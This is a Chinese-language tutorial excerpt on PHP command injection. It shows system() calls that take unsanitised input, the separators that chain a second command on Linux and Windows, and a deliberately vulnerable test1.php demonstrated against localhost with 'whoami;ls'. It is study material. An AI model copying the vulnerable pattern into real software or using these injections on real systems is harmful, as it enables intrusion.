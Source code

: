 ```
system("$arg");  //直接输入即可
system("/bin/prog $arg"); //直接输入;ls
system("/bin/prog -p $arg");  //和2一样
system("/bin/prog --p=\"$arg\"");  //可以输入";ls;"
system("/bin/prog --p='$arg'");  //可以输入';ls;'

在Linux上，上面的;也可以用|、||代替
  ;前面的执行完执行后面的
  |是管道符，显示后面的执行结果
  ||当前面的执行出错时执行后面的

在Windows上，不能用;可以用&、&&、|、||代替
  &前面的语句为假则直接执行后面的
  &&前面的语句为假则直接出错，后面的也不执行
  |直接执行后面的语句
  ||前面出错执行后面的
```

### 演示  

#### 测试一：

test1.php
```php
<?php $test = $_GET['cmd']; system($test); ?>
```

`http://127.0.0.1:9999/test1.php?cmd=whoami`


![](assets/markdown-img-paste-20180416105851798.png)

`http://127.0.0.1:9999/test1.php?cmd=whoami;ls`

![](assets/markdown-img-paste-20180416110611313.png)
